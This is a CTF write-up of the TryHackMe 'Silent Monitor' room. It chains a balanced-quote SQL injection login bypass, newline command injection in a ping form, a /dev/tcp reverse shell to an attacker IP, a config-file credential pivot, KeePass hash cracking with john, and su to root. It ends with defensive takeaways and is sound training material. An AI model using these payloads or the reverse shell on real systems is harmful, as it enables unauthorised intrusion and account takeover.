



> Writeup of the **Silent Monitor** room (TryHackMe): a SQLi login bypass, newline command injection
> in a health-check, a `secret.config` pivot, a KeePass vault cracked with `john`, and escalation to
> root. Flags appear **redacted** (`REDACTED`). _[Leia em português](/posts/thm-silent-monitor/)._

The joke is in the name. It's a "silent monitor": a NOC portal that keeps logging everything the
operators do — and that very diligence with the _audit log_ is what hands you the key. The dashboard
meant to watch you ends up showing you, line by line, the way in.

The whole chain, in one sentence: enumerate the NOC → break the login with a **balanced-quote SQLi**
→ read the **audit log**, which leaks the **command injection** technique used by whoever came before
→ run commands via **newline** in the health-check → become `www-data` → read `secret.config` and
**pivot to `sysadmin` over SSH** → find a **KeePass vault**, crack its master password with `john` →
the vault hands over the **root password** → `su root`.

## Recon: two ports and a Flask pretending to be production

Quick scan with [rustscan](https://github.com/RustScan/RustScan) pushing nmap behind it:

```console
$ rustscan -b 500 -a silent.thm --top -- -sC -sV -Pn
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-title: CorpNet \xE2\x80\x94 Network Operations Centre
|_http-methods: Supported Methods: HEAD OPTIONS GET
```

Only two ports. SSH on 22 and, on 5050, a **Werkzeug** — i.e. Flask's _dev server_ running in
production, which already smells of "homegrown app, built in a hurry". The title gives away the theme:
**CorpNet — Network Operations Centre**.



The home page is corporate and does nothing useful. A `gobuster` run with SecLists' `common.txt`
finds the one path that matters:

```console
$ gobuster dir -u http://silent.thm:5050/ -w ~/Sec/Tools/Wordlists/SecLists/Discovery/Web-Content/common.txt
internal             (Status: 200) [Size: 8770]
```

`/internal`. An operator sign-in page.

## SQLi: balanced quotes slip through where the textbook payload breaks

`/internal` is a "Sign In to NOC Portal". A username field, a password field, and an honest little
notice: _"All sessions are monitored and logged."_ Hold on to that sentence — it comes back to bite
its own owner.

A Flask app plus a local database almost always means a hand-built query — so instead of guessing the
right payload, I let Burp guess for me. I point **Intruder** at the username field with a
[HackTricks login-bypass wordlist](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/login-bypass/sql-login-bypass.md),
the password pinned to `admin`, and **sort the results by
`Content-Length`**. Almost all of them return the same thing — `200` and the ~8.7 KB of the login page
itself (failure). Exactly one stands out: a `302` redirecting to `/internal/dashboard`. The winning
payload is the **balanced-quote** one:

```text
username: ' or 1 or '
password: admin
```



The logic: the query is something like `… WHERE username='<u>' AND password='<p>'`. Injecting
`' or 1 or '`, it becomes `WHERE username='' or 1 or '' AND password='admin'` — **closed** syntax, no
dangling comment, and that lone `1` in the middle is always true. Result: it matches the first row of
the table and logs me in as it. Straight redirect to `/internal/dashboard`.

Why does the variant matter? Because the classic comment payload (`#` or `--`) relies on the DBMS
swallowing the rest of the line; when it doesn't, you get a syntax error instead of a session.
Balanced quotes don't depend on that. (And there's proof of it right below, in the audit log.)

## The audit log: the machine snitching on the attacks — including the next one

The dashboard is a fake NOC, but the **Audit Log** card is the heart of the room. Logged in as
`netops` (role `operator`), it kindly lists everything the operators have been up to:



Look at the rows. There's a `LOGIN_FAIL` for `admin' --` and two `LOGIN_ERROR`s for `' OR 1=1#` —
someone tried the textbook payloads and **broke the syntax** (hence `ERROR`, not just `FAIL`),
confirming exactly why my `' or 1 or '` got through. But the real gold is this:

```text
TIMESTAMP             OPERATOR   EVENT          DETAIL
2026-05-19 03:16:04   netops     HEALTH_CHECK   127.0.0.1%0awhoami
2026-05-19 03:15:52   netops     HEALTH_CHECK   127.0.0.1%0awhoami
2026-05-19 03:15:39   netops     HEALTH_CHECK   127.0.0.1
```

The log records the **raw** `DETAIL` of the health-check — and there it is, in bold letters, a
`127.0.0.1%0awhoami`. The "silent monitor" just handed me the technique for the next step: command
injection separated by a **newline** (`%0a`). Whoever left that recorded was a charitable soul (or the
room author); I only had to read it.

## Command injection: the health-check runs ping in a shell

The sidebar has a **Host Health** — an "ICMP reachability probe". You type a host and it pings it. The
_usage notes_ are candid: _"All probe targets are recorded in the operator audit log"_ (hence the leak
above).


A ping in a text field has a 9-in-10 chance of being built with `shell=True`. The audit log already
told me which separator to use; I just had to confirm. The practical detail: the form's `<input>`
**strips the newline** in the browser, so sending `127.0.0.1` + Enter in the field does nothing — the
`%0a` has to reach the request body _raw_. Through Burp (or a `curl` with a hand-built body):

```http
POST /internal/health HTTP/1.1
Host: silent.thm:5050
Content-Type: application/x-www-form-urlencoded
Cookie: session=...

target=127.0.0.1%0aid
```

And the response renders the command in the output `<pre>`:


```text
$ ping -c 2 -W 1 127.0.0.1 id
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The server builds something like `ping -c 2 -W 1 <target>`; the `%0a` becomes a new line in the shell
and `id` runs next. RCE as `www-data`. I swap `id` for a reverse shell and use
[penelope](https://github.com/brightio/penelope) as the handler (a decent PTY and session logging for
free):

```text
target=127.0.0.1%0abash -i >& /dev/tcp/10.x.x.x/4445 0>&1
```

```console
$ penelope -p 4445
[+] Shell => www-data@tryhackme-2204
www-data@tryhackme-2204:/opt/netops$ ls -l
-rw-r--r-- 1 root     root      7283 app.py
-rw-rw---- 1 www-data www-data 20480 netops.db
-rw-r----- 1 root     www-data   446 secret.config
drwxr-x--- 2 root     www-data  4096 templates
```

There's the `netops.db` (the SQLite I broke at the login) and, better yet, a `secret.config` with mode
`640 root:www-data` — I'm in the `www-data` group, so I can read it.

## Pivot: secret.config hands over sysadmin

`secret.config` is the service's own configuration — and, like nearly every homegrown config, it
keeps more than it should:

```ini
[app]
path             = /opt/netops
timeout          = 1
log_path         = /var/log/netops/audit.log
session_lifetime = 1800
run_as           = sysadmin
password         = <redacted>

[smtp]
host = 127.0.0.1
port = 25
from = noc@corpnet.thm
```

`run_as = sysadmin` and the cleartext password right below. I confirmed `sysadmin` is a real account
by looking at the home directories:

```console
www-data@tryhackme-2204:/opt/netops$ ls /home
sysadmin  ubuntu
```

The password doesn't work with `su sysadmin` (no TTY), but SSH takes it happily — and hands me a
stable terminal on the way:

```console
$ ssh sysadmin@silent.thm
sysadmin@tryhackme-2204:~$ cat user.txt
THM{REDACTED  ·  user}
```

First flag down. Credential reuse between the service config and the system user — the usual sin.

## KeePass: a vault with the root password and a joke master password

Poking around `sysadmin`'s files, a **KeePass** vault turns up: `infrastructure.kdbx`. Promising name.
I bring it back to my box (`scp`, or a `python3 -m http.server` on the other side) and extract the
master-password hash with `keepass2john`:

```console
$ keepass2john infrastructure.kdbx > kdbx.hash
$ cat kdbx.hash
infrastructure:$keepass$*4*15000*c9d9f39a*0*0*0*dfac336b...
```

It's a KeePass 2 with an Argon2 KDF. I throw `john` with `rockyou` at it:

```console
$ john --wordlist=~/Sec/Tools/Wordlists/rockyou.txt kdbx.hash
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
spring           (infrastructure)
1 password hash cracked, 0 left
```

The master password of the "infrastructure" vault? `spring`. One word straight out of `rockyou`. For a
vault holding infra credentials, that's almost an insult — and it's the room's message: a KeePass is
only worth the master password protecting it.

I open the `.kdbx` (`keepassxc-cli`, `pykeepass`, whatever's handy) and read the entries:

```text
TITLE: Root User Password - Sensitive   USER: root   PASS: S3cur3P4ss0nK33p4ss
  NOTES: root user password, remember to change later.
TITLE: Sample Entry #2                   USER: Michael321   PASS: 12345
```

The second entry is the sample every fresh KeePass database ships with — noise. The first is the
prize: the **root** password, with a "remember to change later" note that, predictably, nobody changed.

## Root: the password was in the vault all along

With the password in hand, the escalation is a `su`:

```console
sysadmin@tryhackme-2204:~$ su root
Password: S3cur3P4ss0nK33p4ss
root@tryhackme-2204:/home/sysadmin# cat /root/root.txt
THM{REDACTED  ·  root}
```

Root. The whole box.

A footnote for the plan-B crowd: the kernel here is a `6.8.0-1017-aws` (Ubuntu 22.04), which was
exposed to the LPE known as **copy_fail** (CVE-2026-31431) — a kernel flaw that lets an unprivileged
user gain execution as root. With the vault password in hand I didn't need that path; but it exists,
and it's the usual reminder: **keep the kernel patched** — you can't rely on user-space permissions
alone.

## Takeaways

Silent Monitor has no exotic trick — it has **good storytelling**. Each step points at the next, and
the lesson is wrapped in the "silent monitor" theme:

- **Werkzeug in production.** Flask's dev server on a public port already tells you the app is
  homegrown and probably full of shortcuts. It was.
- **Balanced-quote SQLi.** When `--`/`#` breaks the query, the `' or 1 or '` variant closes the syntax
  and gets through. Worth carrying more than one payload.
- **Logging that becomes a vector.** The audit log stored the raw health-check input — including the
  injection payloads of whoever came before. Logging is great; logging a secret and handing it to the
  attacker is not. Treat log contents as sensitive data.
- **Newline command injection.** `ping` with `shell=True` and a `%0a` in the middle. And the tactical
  detail: the `<input>` eats the newline, so the payload has to go raw in the body, through Burp.
- **Secret in a config file.** `secret.config` with `run_as` + cleartext password, readable by the
  service's group. A service credential reused as a system login password.
- **KeePass is only as strong as the master password.** The "infrastructure" vault was protected by
  `spring` — a word from `rockyou`. The right vault, the wrong password.
- **A cleartext root password, "change later".** The note said to change it. Nobody changed it. Nobody
  ever changes it.

What the room does beautifully is turn the defensive mechanism — the audit log, the "everything is
monitored" — into the attack map itself. A good reminder that careless telemetry doesn't protect you:
it documents, with timestamps, exactly how you were owned.
